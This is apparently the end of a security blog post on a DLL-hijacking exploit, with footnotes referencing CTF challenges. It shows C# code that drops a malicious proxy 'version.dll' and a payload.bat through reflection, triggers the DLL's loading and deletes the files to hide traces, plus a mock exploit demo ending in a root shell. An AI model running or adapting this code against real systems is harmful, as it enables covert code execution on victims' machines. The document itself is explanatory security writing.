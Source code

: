 ```C { linenos=true, linenostart=1 }
        var proxyStream = new MemoryStream(Convert.FromBase64String(PROXY_DLL));
        var origStream = new MemoryStream(Convert.FromBase64String(VERSION_DLL));
        var payloadStream = new MemoryStream(Convert.FromBase64String(PAYLOAD));

        var filesToDelete = new List<string>();

        var writePath = Path.Combine(directoryName, "version.dll");
        writeFileMethod.Invoke(fsClient, new object[] { writePath, proxyStream });
        filesToDelete.Add(writePath);

        writePath = Path.Combine(directoryName, "version_orig.dll");
        writeFileMethod.Invoke(fsClient, new object[] { writePath, origStream });
        filesToDelete.Add(writePath);

        writePath = "C:\\Windows\\Temp\\payload.bat";
        writeFileMethod.Invoke(fsClient, new object[] { writePath, payloadStream });
        filesToDelete.Add(writePath);

        proxyStream.Dispose();
        origStream.Dispose();
        payloadStream.Dispose();
        disposeMethod.Invoke(fsClient, null);

        // We reconnect in order to spawn a new process, which loads our malicious proxy DLL.
        connected = (bool) connectMethod.Invoke(fsClient, null);
        disposeMethod.Invoke(fsClient, null);

        // We wait half a second to make sure the code in our proxy DLL actually ran.
        Thread.Sleep(500);

        // Deleting without reconnecting would fail, as the DLLs are currently loaded
        // by the process that got created when we made our previous connection.
        connected = (bool) connectMethod.Invoke(fsClient, null);
        foreach (var path in filesToDelete) {
            deleteFileMethod.Invoke(fsClient, new object[] { path });
        }

        disposeMethod.Invoke(fsClient, null);
    }
}
```

Doesn't look too fancy, now does it? Just about 100 lines of imperative, reflection-heavy code.


### Demo {#demo}

Some of the most anticlimactic things to watch are demos of actually _launching_ an exploit:

```sh { linenos=true, linenostart=1 }
$ python exploit.py
[+] Calculate address offset. . .
[+] Found correct offset at 0xbabebabe
[+] Allocate dummy heap objects
[+] Launch second stage
$ whoami
root
```


[^fn:1]: It gets a bit murky if new functionality is created by [jumping into the middle of an instruction](https://devblogs.microsoft.com/oldnewthing/20220111-00/?p=106144), though.
[^fn:2]: Which is exactly why I've put two challenges inspired by it straight _into_ a `CTF`: [Here](https://github.com/LosFuzzys/GlacierCTF2022/tree/main/web/rce_as_a_service_stage1) and [here](https://github.com/LosFuzzys/GlacierCTF2022/tree/main/web/rce_as_a_service_stage2).
[^fn:3]: The PHP `expect` module has to be loaded.
[^fn:4]: In contrast to `ROP` Gadgets, these are actually bigger than a couple of bytes.
[^fn:5]: I'm explicitly **not** dunking on the developers! Stuff simply accumulates over time.
[^fn:6]: We have a **ton** of dependencies, but only to the [Base Class Library](https://learn.microsoft.com/en-us/dotnet/standard/glossary#bcl).
[^fn:7]: Making a HTTP request (granted: it throws an exception), manipulating files like the legitimate program does.